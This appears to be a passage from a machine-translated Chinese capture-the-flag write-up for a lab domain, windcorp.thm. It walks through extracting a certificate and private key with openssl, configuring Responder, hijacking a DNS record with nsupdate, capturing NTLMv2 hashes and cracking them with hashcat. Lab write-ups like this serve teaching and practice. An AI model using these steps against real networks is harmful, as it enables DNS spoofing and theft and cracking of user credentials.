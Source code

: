 **我首先使用 **openssl** 从“ ***cert.pfx*** ”文件中提取证书和私钥，并将其保存到“***/usr/share/responder/certs/***”。**

```
# Extract Cert
openssl pkcs12 -in cert.pfx -out selfservice.cert.pem -clcerts -nokeys# Extract Key
openssl pkcs12 -in cert.pfx -out selfservice.key.pem -nocerts -nodes
```

**接下来，我编辑了“***/etc/Responder/Responder . conf***”中的 Responder HTTPS 服务器设置。**

```
[HTTPS Server]; Configure SSL Certificates to use
SSLCert = **/usr/share/responder/certs/selfservice.cert.pem**
SSLKey = **/usr/share/responder/certs/selfservice.key.pem**
```

**既然 responder 的 HTTPS 设置已经配置好了，我使用 **nsupdate** 删除了“***self service . wind corp . thm***”的旧 A DNS 记录，并添加了一个解析为我的攻击机器 IP 地址的新 A 记录。**

```
nsupdate

> server 10.10.231.107
> update delete selfservice.windcorp.thm
> send
> update add selfservice.windcorp.thm 86400 A 10.*.*.*
> send
> quit
```

**最后，我执行 responder 并等待它捕获 NTLM 散列。**

```
python3 Responder.py -I tun0 -rdwv
```

**![](img/3c72e9a140f8336cfedb0a42f43e96e8.png)**

**响应程序捕获的 NTLMv2 哈希。**

**几秒钟后，Responder 为用户"*"捕获一个 NTLMv2 哈希😃！我现在可以使用 **hashcat** 来破解 NTLMv2 哈希。***

```
*hashcat64.exe -m 5600 hash.txt rockyou.txt*
```
